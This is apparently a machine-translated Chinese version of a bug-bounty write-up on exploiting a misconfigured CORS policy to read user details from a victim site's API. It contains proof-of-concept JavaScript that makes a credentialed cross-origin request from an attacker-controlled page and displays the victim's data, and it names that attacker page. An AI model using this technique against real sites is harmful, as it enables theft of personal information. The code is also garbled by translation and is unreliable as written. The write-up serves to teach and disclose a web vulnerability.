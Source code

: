 # 利用 CORS 窃取用户信息

> 原文：<https://infosecwriteups.com/stealing-user-details-by-exploiting-cors-c5ee86ebe7fb?source=collection_archive---------0----------------------->

让我们从跨源资源共享开始。下面是 CORS 如何工作的图。

![](img/819ef925afce652a6701fa4a2dcdbaad.png)

我在一个私人网站上搜索，在内容发现的时候我注意到每一个请求和响应，那时我注意到应用程序在请求中使用了“Origin”头。

现在什么是原点头？

来源请求标头指示提取的来源。它不包含任何路径信息，只包含服务器名称。它与 CORS 请求以及 POST 请求一起发送。

所以我用我的域名和路径替换了 Origin 头的值，其中包含了利用 cors 的代码。

![](img/79d498b215c9b8c5541bfcce7fdedbb5.png)

cors.html 是利用错误配置的 CORS 的漏洞代码。
漏洞代码如下。

<html>
<head>
<script>
function CORS(){
var xhttp = new XMLHttpRequest()；
xhttp . onreadystatechange = function(){
if(this . ready state = = 4&&this . status = = 200){
document . getelementbyid(" demo ")。innerHTML = alert(this . responsetext)；
}
}；
xhttp.open("GET "，"[https://www.victim.com/api/user?version=show_with_logins](https://hackerone.com/redirect?signature=de95f7e56ca1fed87abd5c52033bb1e1768241db&url=https%3A%2F%2Fmanage.gusto.com%2Fapi%2Fuser%3Fversion%3Dshow_with_logins)"，true)；
xhttp . with credentials = true；
xhttp . send()；
}</脚本></头部>
<body onload = " CORS()">
<中心>
<H2>CORS POC Exploit arman</H2>
<H3>提取 SID</H3><div id = " demo ">
<button type = " button

![](img/e38816e03bb34e54a26a586d4b0295ad.png)

正如你在截图中看到的

访问控制允许来源:http://www.armaanpathan.pe.hu/cors.html
访问控制允许凭证:真

这使得我/攻击者能够窃取受害者的个人信息/用户详细信息

因此，在这之后，我在浏览器中打开了[http://www.armaanpathan.pe.hu/cors.html](http://www.armaanpathan.pe.hu/cors.html),看看我是否能够获取用户的详细信息。

![](img/c34b12b8f110f5cdc1f7332263e9b78b.png)

当我点击 exploited 并检查网络控制台时

![](img/9a891eec669ef6603418dc1dcb150f4f.png)

该漏洞代码正在抓取的信息，如用户名，电子邮件地址，电话号码，用户角色和其他敏感信息。

感谢阅读。我希望你们都喜欢这个，

参考

geek boy . ninja/blog/exploining-错误配置-CORS-跨源-资源共享/